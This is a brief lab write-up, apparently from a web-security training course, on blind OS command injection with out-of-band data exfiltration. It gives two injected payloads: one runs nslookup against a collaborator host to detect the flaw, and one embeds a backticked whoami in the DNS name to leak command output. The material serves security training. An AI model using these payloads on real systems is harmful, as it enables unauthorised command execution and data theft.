 # Lab: Blind OS command injection with out-of-band data exfiltration

Target - execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator.

Analysis :

`& nslookup ayhaga.brupcollaborator.net #` to check if there a vulnerability

`& nslookup ```whoami```.ayhaga.brupcollaborator.net #` to actually exfiltrate data
